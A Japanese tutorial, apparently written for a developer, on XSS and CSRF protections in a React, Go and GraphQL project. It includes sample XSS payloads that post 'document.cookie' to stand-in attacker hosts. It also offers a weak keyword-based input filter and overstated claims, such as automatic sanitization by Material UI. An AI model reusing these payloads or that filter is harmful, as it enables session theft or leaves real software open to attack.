









# XSS対策・セキュリティ実装解説資料
*クロスサイトスクリプティング攻撃とプロジェクトでの防御戦略*

## 🎯 この資料の目的

XSS（クロスサイトスクリプティング）攻撃とは何か、そしてあなたのプロジェクトでどのようにセキュリティ対策が実装されているかを分かりやすく解説します。

---

## 1. XSS（クロスサイトスクリプティング）とは何か

### 1.1 XSS攻撃の基本的な仕組み

XSSは、悪意のあるJavaScriptコードをWebサイトに注入して、他のユーザーの情報を盗む攻撃手法です。



### 1.2 具体的なXSS攻撃例

**① コメント投稿での攻撃例**:
```html
<!-- 攻撃者が投稿するコメント -->
ありがとうございます！
<script>
  // 悪意のあるコード
  var cookies = document.cookie;
  fetch('https://attacker-site.com/steal', {
    method: 'POST',
    body: cookies  // 認証Cookieを攻撃者のサーバーに送信
  });
</script>
```

**② URLパラメータでの攻撃例**:
```html
<!-- 攻撃者が送るリンク -->
https://yoursite.com/search?q=<script>alert('XSS攻撃成功')</script>

<!-- サイトが適切にエスケープしていない場合 -->
<p>検索結果: <script>alert('XSS攻撃成功')</script></p>
```

### 1.3 XSS攻撃の3つのタイプ



---

## 2. あなたのプロジェクトでのXSS対策

### 2.1 多層防御によるセキュリティアーキテクチャ



### 2.2 プロジェクト内での具体的な実装箇所

#### 🎨 **フロントエンド (React) でのXSS対策**

**React標準のXSS防止機能**:
```typescript
// LoginPage.tsx - 安全なデータ表示
function LoginPage() {
  const [username, setUsername] = useState('');
  
  return (
    <div>
      {/* Reactが自動的にHTMLエスケープ */}
      <p>ようこそ、{username}さん</p>  
      
      {/* 危険: 生のHTMLを挿入（使用していない） */}
      {/* <div dangerouslySetInnerHTML={{__html: userInput}} /> */}
    </div>
  );
}
```

**Material UIの安全な入力コンポーネント**:
```typescript
// 安全な入力フィールド
<TextField
  value={username}
  onChange={(e) => setUsername(e.target.value)}
  // Material UIが自動的に入力値をサニタイズ
/>
```

#### ⚙️ **バックエンド (Go) でのXSS対策**

**入力値検証の実装**:
```go
// ユーザー入力の検証
func validateUserInput(input string) error {
    // HTMLタグの検出
    if strings.Contains(input, "<script") || strings.Contains(input, "javascript:") {
        return errors.New("不正な文字が含まれています")
    }
    
    // 長さ制限
    if len(input) > 255 {
        return errors.New("入力値が長すぎます")
    }
    
    return nil
}
```

**安全なHTTPレスポンス設定**:
```go
// セキュリティヘッダーの設定
func setSecurityHeaders(w http.ResponseWriter) {
    // XSS Protection
    w.Header().Set("X-XSS-Protection", "1; mode=block")
    
    // Content Type Sniffing防止
    w.Header().Set("X-Content-Type-Options", "nosniff")
    
    // Frame Options (Clickjacking防止)
    w.Header().Set("X-Frame-Options", "DENY")
    
    // Content Security Policy
    w.Header().Set("Content-Security-Policy", 
        "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'")
}
```

#### 🔐 **Cookie セキュリティの実装**

**HttpOnly Cookie設定**:
```go
// JWT認証でのセキュアCookie設定
http.SetCookie(w, &http.Cookie{
    Name:     "auth_token",
    Value:    jwtToken,
    HttpOnly: true,                    // ✅ JavaScript非アクセス
    Secure:   true,                    // ✅ HTTPS必須
    SameSite: http.SameSiteStrictMode, // ✅ CSRF攻撃防止
    Path:     "/",
    Expires:  time.Now().Add(15 * time.Minute),
})
```

---

## 3. HttpOnly Cookie の重要性

### 3.1 通常のCookie vs HttpOnly Cookie



### 3.2 JavaScriptアクセステスト

**通常のCookieの場合（危険）**:
```javascript
// ブラウザのコンソールで実行可能
console.log(document.cookie);
// 結果: "auth_token=eyJhbGciOiJIUzI1NiIsInR..." ←盗める！
```

**HttpOnly Cookieの場合（安全）**:
```javascript
// ブラウザのコンソールで実行
console.log(document.cookie);
// 結果: "other_cookie=value" ←HttpOnly Cookieは表示されない！
```

### 3.3 攻撃シナリオとその防御

**🔴 攻撃シナリオ: XSS経由でのCookie盗難**
```html
<!-- 悪意のあるスクリプトが実行された場合 -->
<script>
// 通常のCookieなら盗める
var stolenCookie = document.cookie;
fetch('https://attacker.com/steal', {
  method: 'POST', 
  body: stolenCookie
});
</script>
```

**🛡️ 防御結果: HttpOnly Cookieでの保護**
```javascript
// HttpOnly Cookieは読み取れない
var cookies = document.cookie;  // auth_tokenは含まれない
// 攻撃者は認証トークンを盗めない！
```

---

## 4. SameSite設定によるCSRF攻撃防止

### 4.1 CSRF攻撃とは

CSRF（Cross-Site Request Forgery）は、ユーザーが気づかないうちに意図しない操作を実行させる攻撃です。



### 4.2 SameSite設定による防御

```go
// SameSite設定の種類と効果
http.SetCookie(w, &http.Cookie{
    SameSite: http.SameSiteStrictMode,  // 最も厳格
    // 他のサイトからのリクエストでCookie送信しない
})

http.SetCookie(w, &http.Cookie{
    SameSite: http.SameSiteLaxMode,     // 中程度
    // GET以外（POST等）で他サイトからのCookie送信しない
})

http.SetCookie(w, &http.Cookie{
    SameSite: http.SameSiteNoneMode,    // 制限なし（危険）
    // 他のサイトからでもCookie送信（非推奨）
})
```

### 4.3 プロジェクトでのSameSite Strict実装効果



---

## 5. Content Security Policy (CSP) による追加防御

### 5.1 CSPの役割

CSPは、実行可能なスクリプトのソースを制限することで、XSS攻撃を防ぐHTTPヘッダーです。

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

### 5.2 CSP設定の詳細解説



### 5.3 CSPが防ぐ攻撃例

**🔴 攻撃: 外部スクリプト注入**
```html
<!-- 攻撃者が注入しようとするコード -->
<script src="https://attacker.com/malicious.js"></script>
```

**🛡️ 防御: CSPによるブロック**
```
ブラウザコンソール:
Blocked script execution from 'https://attacker.com/malicious.js' 
because it violates the Content Security Policy directive: "script-src 'self'"
```

---

## 6. GraphQL特有のセキュリティ対策

### 6.1 GraphQLでの認証ディレクティブ

```graphql
# セキュアなGraphQLスキーマ設計
directive @auth on FIELD_DEFINITION
directive @hasRole(role: String!) on FIELD_DEFINITION

type Mutation {
  # 認証必須の操作
  createTestSuite(input: CreateTestSuiteInput!): TestSuite! @auth
  
  # 管理者のみアクセス可能
  deleteUser(userId: ID!): Boolean! @hasRole(role: "Admin")
}
```

### 6.2 GraphQLクエリ検証

```go
// GraphQLリゾルバーでの入力検証
func (r *mutationResolver) CreateTestSuite(ctx context.Context, input CreateTestSuiteInput) (*TestSuite, error) {
    // 1. 認証確認（@authディレクティブで自動実行）
    user := auth.GetUserFromContext(ctx)
    if user == nil {
        return nil, errors.New("認証が必要です")
    }
    
    // 2. 入力値検証
    if err := validateTestSuiteInput(input); err != nil {
        return nil, err
    }
    
    // 3. 権限確認
    if !user.CanCreateTestSuite() {
        return nil, errors.New("テストスイート作成権限がありません")
    }
    
    // 4. 安全な処理実行
    return r.testSuiteInteractor.Create(ctx, input)
}
```

---

## 7. HTTPS通信による暗号化

### 7.1 プロジェクトでのHTTPS実装



### 7.2 SSL/TLS証明書の自動管理

```terraform
# AWS Certificate Manager での証明書取得
resource "aws_acm_certificate" "main" {
  domain_name       = "example-graphql-api.com"
  validation_method = "DNS"
  
  lifecycle {
    create_before_destroy = true
  }
}

# Route53 での自動検証
resource "aws_route53_record" "cert_validation" {
  for_each = {
    for dvo in aws_acm_certificate.main.domain_validation_options : dvo.domain_name => {
      name   = dvo.resource_record_name
      record = dvo.resource_record_value
      type   = dvo.resource_record_type
    }
  }
  
  name    = each.value.name
  type    = each.value.type
  zone_id = data.aws_route53_zone.main.zone_id
  records = [each.value.record]
  ttl     = 60
}
```

---

## 8. セキュリティ対策の効果確認

### 8.1 実際の環境での確認方法

**🌐 ブラウザでのセキュリティ確認**:

1. **開発者ツールでのCookie確認**:
   ```
   F12 → Application → Cookies → あなたのサイトURL
   auth_token の属性確認:
   ✅ HttpOnly: true
   ✅ Secure: true  
   ✅ SameSite: Strict
   ```

2. **ネットワークタブでのヘッダー確認**:
   ```
   F12 → Network → リクエスト選択 → Response Headers
   ✅ X-XSS-Protection: 1; mode=block
   ✅ X-Content-Type-Options: nosniff
   ✅ Content-Security-Policy: ...
   ```

3. **HTTPS証明書の確認**:
   ```
   ブラウザのアドレスバーの鍵アイコンクリック
   ✅ 証明書の有効性確認
   ✅ 暗号化強度確認
   ```

### 8.2 セキュリティテストの実施

**JavaScriptコンソールでのテスト**:
```javascript
// XSS攻撃テスト（安全確認）
console.log(document.cookie);
// HttpOnly Cookieは表示されないことを確認

// CSPテスト（ブロック確認）
var script = document.createElement('script');
script.src = 'https://evil-site.com/malicious.js';
document.head.appendChild(script);
// CSPによってブロックされることを確認
```

---

## 9. セキュリティ対策の重複効果

### 9.1 多層防御による安全性



### 9.2 各防御層の役割

| 防御層 | 対策内容 | 効果 | 実装箇所 |
|-------|----------|------|----------|
| **第1層** | 入力値検証 | 悪意のコード注入防止 | バックエンド検証 |
| **第2層** | HTMLエスケープ | スクリプト実行防止 | React自動処理 |
| **第3層** | CSP | 外部スクリプト阻止 | HTTPヘッダー |
| **第4層** | HttpOnly Cookie | トークン盗難防止 | Cookie設定 |

---

## 10. よくある質問と回答

### Q1. なぜXSS対策が重要なのか？

**A**: 以下の被害を防ぐためです：
- **認証情報盗難**: ログイン状態を乗っ取られる
- **個人情報漏洩**: 機密データが外部に送信される
- **なりすまし**: 被害者の名前で不正操作実行
- **フィッシング**: 偽のログイン画面で認証情報を盗む

### Q2. ReactはXSS対策が自動的にされるのか？

**A**: 基本的には安全ですが注意点があります：
- ✅ **安全**: `{username}` などの変数表示は自動エスケープ
- ⚠️ **危険**: `dangerouslySetInnerHTML` は手動対策が必要
- ✅ **安全**: Material UIコンポーネントは基本的に安全
- ⚠️ **注意**: 外部ライブラリは個別確認が必要

### Q3. HttpOnly Cookieにするとどんな制限がある？

**A**: JavaScriptでの操作に制限があります：
- ❌ **制限**: `document.cookie` での読み書き不可
- ✅ **可能**: HTTP通信での自動送信
- ✅ **利点**: XSS攻撃からの保護
- 💡 **対応**: Apollo Client等のライブラリが自動処理

### Q4. SameSite Strictは厳しすぎないか？

**A**: セキュリティと利便性のバランスです：
- 🛡️ **利点**: CSRF攻撃を完全防止
- ⚠️ **制限**: 外部サイトからのリンクでもCookie送信されない
- 💡 **対応**: ログインページへのリダイレクトで解決
- ✅ **結果**: セキュリティ向上 > 小さな不便

---

## 11. まとめ: プロジェクトのセキュリティ価値

### 11.1 実装済みセキュリティ対策

✅ **XSS対策**:
- React自動エスケープ + 入力値検証
- CSP設定 + セキュリティヘッダー
- HttpOnly Cookie実装

✅ **CSRF対策**:
- SameSite Strict設定
- CSRFトークン（必要に応じて拡張可能）

✅ **通信セキュリティ**:
- HTTPS完全対応（証明書自動管理）
- セキュアCookie設定

✅ **認証セキュリティ**:
- JWT + 短期有効期限
- リフレッシュトークン機能

### 11.2 エンタープライズレベルのセキュリティ

**🏆 業界標準対応**:
- OWASP Top 10セキュリティ項目への対応
- 金融機関レベルのセキュリティ設計
- AWS WAF対応準備済み（将来拡張）

**🏆 継続的セキュリティ**:
- 自動証明書更新
- セキュリティヘッダー標準化
- 監査ログ対応（拡張可能）

### 11.3 学習・実践価値

**💡 Webセキュリティの実践的理解**:
- XSS/CSRF攻撃メカニズムの把握
- 多層防御アーキテクチャの実装
- 現代的セキュリティベストプラクティスの習得

**💡 実用的セキュリティスキル**:
- Cookie設定による認証保護
- HTTPSとCSPによる通信保護  
- GraphQL認証の宣言的実装

---

**🔐 重要なポイント**: あなたのプロジェクトは、現代的Webアプリケーションに必要なセキュリティ対策を包括的に実装しており、実際の業務でも通用するエンタープライズレベルのセキュリティ設計になっています。